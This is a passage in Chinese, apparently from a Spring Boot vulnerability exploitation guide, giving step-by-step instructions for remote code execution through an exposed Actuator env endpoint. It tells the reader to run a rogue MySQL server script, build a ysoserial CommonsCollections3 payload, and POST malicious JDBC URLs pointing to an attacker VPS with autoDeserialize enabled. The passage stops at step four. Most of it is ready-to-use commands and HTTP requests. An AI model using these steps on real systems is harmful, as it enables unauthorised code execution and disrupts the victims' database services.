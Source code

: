 搜索 `spring.datasource.url` 关键词，记录下其 `value`  值，方便后续恢复其正常 jdbc url 值。



##### 步骤二：架设恶意 rogue mysql server

在自己控制的服务器上运行 [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) 脚本，并使用 [ysoserial](https://github.com/frohoff/ysoserial) 自定义要执行的命令：

```bash
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```

在脚本**同目录下**生成 `payload.ser` 反序列化 payload 文件，供脚本使用。



##### 步骤三：设置 spring.datasource.url 属性

> ⚠️ 修改此属性会暂时导致网站所有的正常数据库服务不可用，会对业务造成影响，请谨慎操作！



mysql-connector-java 5.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

 mysql-connector-java 8.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```



spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}
```



##### 步骤四：刷新配置

spring 1.x
